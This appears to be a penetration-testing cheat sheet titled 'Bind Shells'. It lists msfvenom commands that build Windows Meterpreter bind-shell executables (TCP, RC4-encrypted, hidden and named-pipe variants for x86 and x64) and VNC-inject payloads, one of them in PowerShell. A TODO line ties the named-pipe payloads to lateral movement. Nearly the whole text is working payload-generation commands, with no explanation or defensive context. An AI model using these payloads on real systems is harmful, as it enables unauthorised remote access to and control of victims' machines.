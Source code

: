 # Bind Shells

## Interactive Shells

TODO: Take the namepipe meterpreter payloads to the post exploitation section for lateral movement

1. x86 (32-bit) Payloads

```
$ msfvenom -p windows/meterpreter/bind_tcp lport=<PORT> -f exe -o met-x86.exe

$ msfvenom -p windows/meterpreter/bind_tcp_rc4 lport=<PORT> rc4password=<KEY> -f exe -o met-x86.exe

$ msfvenom -p windows/meterpreter/bind_hidden_tcp ahost=<IP> lport=<PORT> -f exe -o hidden-met-x64.exe

$ msfvenom -p windows/meterpreter/bind_named_pipe lport=<PORT> pipename=<PIPENAME> -f -o met-x86.exe
```

2. x86-64 (64-bit) Payloads

```
$ msfvenom -p windows/x64/meterpreter/bind_tcp lport=<PORT> -f exe -o met-x64.exe

$ msfvenom -p windows/x64/meterpreter/bind_tcp_rc4 lport=<PORT> rc4password=<KEY> -f exe -o met-x64.exe
```

For the SMB pipe the default for LPORT will always be port **445** 

```
$ msfvenom -p windows/x64/meterpreter/bind_named_pipe lport=<PORT> pipename=<PIPENAME> -f exe -o met-x64.exe
```

## VNC

1. x86 (32-bit) Payloads

```
$ msfvenom -p windows/vncinject/bind_tcp rhost=<target_IP> lport=<PORT> -f exe -o vnc-x86.exe

$ msfvenom -p cmd/windows/powershell/vncinject/bind_tcp rhost=<target_IP> lport=<PORT> -f raw -o vnc-x86.ps1
```

2. x86-64 (64-bit) Payloads

```
$ msfvenom -p windows/x64/vncinject/bind_tcp rhost=<target_IP> lport=<PORT> -f exe -o vnc-x86-64.exe
```